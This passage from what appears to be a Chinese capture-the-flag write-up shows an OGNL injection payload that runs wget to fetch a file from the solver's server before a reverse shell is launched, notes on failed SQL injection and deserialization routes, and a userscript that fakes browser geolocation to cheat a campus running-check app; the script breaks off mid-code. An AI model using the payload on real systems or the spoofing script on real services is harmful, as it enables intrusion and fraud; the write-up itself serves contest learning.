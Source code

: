 ` ${@java.lang.Runtime@getRuntime().exec('wget vps/file')}`可以执行，然后传个弹shell脚本后就可以执行了

> ps : 不知道ognl注入之前尝试的途径，只能说知识面还是太窄了
>
> 1. sqli，数据库里啥也没有，想udf提权，但是设置了secure_file_priv，所以啥也干不了
> 2. 反序列化，调的时候注意到json数据直接转成user了，猜想可能调了setter，调试的时候发现确实是jackson转换数据后调setter，但是有个targetType指定了调用的类，所以这条也没走通
> 3. CVE，目标Spring版本确实有比较严重的cve，但是jdk的版本对不上，cve要求jdk9+，寄



## Misc

### Laughing-Knife-No-Running

环境没了只能口头重述了）

打开题目发现是我们西电人最他宝了个贝喜欢的乐跑（确信）。先F12打开传感器研究一下，发现是依靠读取经纬度来实现定位的，一开始试了一下手动改定位，发现当每秒经纬度的变化在0.0001的量级时大概能不被判定作弊同时满足速度的要求。并且发现可以重复刷新凹出特定的打卡点，于是思路就很明了了，我选取的是：

北操西侧入口 (34.132899, 108.846993)

北门 (34.134961, 108.843728)

丁香餐厅北侧 (34.130214, 108.836061)

这三个打卡点，首先将初始经纬度设置为一个打卡点附近，然后先后向其他两个打卡点运动（为了能判定到打卡点，这个过程先将速度放慢），在打完所有的打卡点之后，直接匀速直线运动坐等跑完就行。

编写油猴脚本

```javascript
// ==UserScript==
// @name         乐道不跑
// @version      114514
// @description  这就是我们西电的乐跑，你们有这样的乐跑吗？
// @match        http*://*/*
// @run-at       document-start
// ==/UserScript==

(function() {
    'use strict';

    // 初始位置
    let simulatedLatitude = 34.1302;
    let simulatedLongitude = 108.8360;
    // 剩下两个打卡点
    const targetPositions = [
        { latitude: 34.1349, longitude: 108.8437 },
        { latitude: 34.1328, longitude: 108.8469 }
    ];
    // 当前目标索引
    let currentTargetIndex = 0;
    // 移动步长
    const step = 0.00015;
    // 初始时间间隔
    let interval = 5000;

    // 等待页面加载完毕
    window.addEventListener('load', () => {
        // 覆盖navigator.geolocation.watchPosition方法
        navigator.geolocation.watchPosition = function (success, error, options) {
            const movementInterval = setInterval(() => {
                // 检查是否到达当前目标位置
                if (currentTargetIndex < targetPositions.length) {
                    const target = targetPositions[currentTargetIndex];
                    const latDiff = target.latitude - simulatedLatitude;
                    const lonDiff = target.longitude - simulatedLongitude;
                    const latDirection = latDiff > 0 ? 1 : -1;
```